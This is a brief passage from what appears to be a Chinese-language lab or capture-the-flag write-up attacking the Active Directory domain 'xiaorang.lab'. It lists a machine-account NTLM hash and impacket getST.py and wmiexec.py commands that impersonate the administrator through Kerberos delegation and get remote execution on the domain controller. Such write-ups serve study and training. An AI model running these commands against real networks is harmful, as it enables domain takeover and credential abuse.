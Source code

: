 ```
8f8402979658c3213d99ba1ceeffad39
```

用impacket包里面的脚本

```
python3 getST.py -dc-ip 172.22.2.3 -spn CIFS/DC.xiaorang.lab -impersonate administrator xiaorang.lab/MSSQLSERVER$ -hashes :8f8402979658c3213d99ba1ceeffad39

KRB5CCNAME=administrator.ccache python3 wmiexec.py -k xiaorang.lab/administrator@DC.xiaorang.lab -no-pass -dc-ip 172.22.2.3
```

![QQ_1726893304925](images/27.png)

![QQ_1726893349296](images/28.png)






